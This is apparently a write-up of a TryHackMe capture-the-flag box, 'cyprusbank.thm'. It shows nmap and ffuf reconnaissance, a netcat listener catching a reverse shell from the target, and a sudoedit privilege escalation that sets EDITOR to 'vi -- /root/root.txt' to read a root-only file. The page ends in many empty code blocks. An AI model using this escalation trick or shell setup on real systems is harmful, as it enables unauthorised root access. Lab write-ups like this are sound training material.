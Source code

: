 #Recon

<pre><code>
  maxi@maxi-notebook ~/C/t/e/w/ports> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.73.174 | tee nmap1.txt

  Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-12 05:38 -03
Initiating SYN Stealth Scan at 05:38
Scanning 10.10.73.174 [65535 ports]
Discovered open port 22/tcp on 10.10.73.174
Discovered open port 80/tcp on 10.10.73.174
Completed SYN Stealth Scan at 05:39, 26.35s elapsed (65535 total ports)
Nmap scan report for 10.10.73.174
Host is up, received user-set (0.67s latency).
Scanned at 2025-01-12 05:38:54 -03 for 26s
Not shown: 53803 filtered tcp ports (no-response), 11730 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 26.49 seconds
           Raw packets sent: 126282 (5.556MB) | Rcvd: 11784 (471.368KB) </code></pre>

<pre><code>maxi@maxi-notebook ~/C/t/e/w/ports> sudo nmap -p22,80 -sCV -Pn 10.10.7.103 | tee nmap2.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-12 05:39 -03
Nmap scan report for 10.10.73.174
Host is up (0.27s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.79 seconds</code></pre>

![2025-01-12_08-32](https://github.com/user-attachments/assets/9aa63f5f-30fb-4b18-9ad3-60e3d54cf775)


<pre><code> maxi@maxi-notebook ~> ffuf -w /home/maxi/Escritorio/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 | tee ffuf.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm/
 :: Wordlist         : FUZZ: /home/maxi/Escritorio/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 1
________________________________________________

admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 350ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 360ms]
</code></pre>

![2025-01-12_08-39](https://github.com/user-attachments/assets/c176b448-d93a-4d72-9320-fa68aa060539)

![2025-01-12_08-40](https://github.com/user-attachments/assets/adcda39f-725f-4fbb-ac87-f269e35dbaf5)

![2025-01-12_08-41](https://github.com/user-attachments/assets/bc17e5e9-2667-4257-81d0-f5bbf34e542b)

![2025-01-12_08-42](https://github.com/user-attachments/assets/c1fbbe83-ac70-4d03-898b-36d22b3ab470)

![2025-01-12_08-42_1](https://github.com/user-attachments/assets/030b3a5f-83a9-4678-891f-05edbb43e43d)

![2025-01-12_08-43](https://github.com/user-attachments/assets/ddcc28ac-f0c9-4df0-93ce-7b3a340fdc15)

![2025-01-12_08-45](https://github.com/user-attachments/assets/6bf291fd-08f5-4ad0-a8af-ea28fa794439)

![2025-01-12_08-46](https://github.com/user-attachments/assets/d4b1d47b-521b-4151-a15b-7065f6853d8b)

![2025-01-12_08-48](https://github.com/user-attachments/assets/d7cd7858-ac00-4a66-bd6c-a132faacdc04)

![2025-01-12_08-50](https://github.com/user-attachments/assets/fdd10f54-1546-4fc8-a59a-b53d3668d33b)

<pre><code> maxi@maxi-notebook ~ [1]> sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.239.90 - - [12/Jan/2025 08:10:37] "GET / HTTP/1.1" 200 -
10.10.239.90 - - [12/Jan/2025 08:10:38] "GET / HTTP/1.1" 200 -
10.10.239.90 - - [12/Jan/2025 08:10:38] "GET / HTTP/1.1" 200 - </code></pre>

<pre><code> maxi@maxi-notebook ~/C/t/e/w/ports> nc -nlvp 1234
 </code></pre>

![2025-01-12_08-57](https://github.com/user-attachments/assets/7b2cd816-2383-4113-b44a-fdde1fc300cd)


<pre><code>Connection from 10.10.239.90:54900
whoami
web
 </code></pre>

<pre><code> Connection from 10.10.239.90:54900
> whoami
web

> ls
components
index.js
node_modules
package.json
package-lock.json
routes
static
views
  
> cd ~
ls
app
user.txt
</code></pre>

<pre><code> sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm </code></pre>

<pre><code> sudoedit -V
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1 </code></pre>

<pre><code>   [1/2]                   /var/tmp/sudoers.NFpNOvMy                             

## sudoers file.
##
## This file MUST be edited with the 'visudo' command as root.
## Failure to use 'visudo' may result in syntax or file permission errors
## that prevent sudo from running.
##
## See the sudoers man page for the details on how to write a sudoers file.
##

##
## Host alias specification
##
## Groups of machines. These may include host names (optionally with wildcards),
## IP addresses, network numbers or netgroups.
# Host_Alias    WEBSERVERS = www1, www2, www3

##
## User alias specification
##
                               [ Read 14 lines ]
^G Get Help  ^O Write Out ^W Where Is  ^K Cut Text  ^J Justify   ^C Cur Pos
^X Close     ^R Read File ^\ Replace   ^U Uncut Text^T To Spell  ^_ Go To Line </code></pre>

<pre><code>  export EDITOR="vi -- /root/root.txt"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
 </code></pre>

<pre><code>THM{}
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
"/var/tmp/rootaQnARc3b.txt" 1L, 21C                           1,1           All </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

<pre><code> </code></pre>

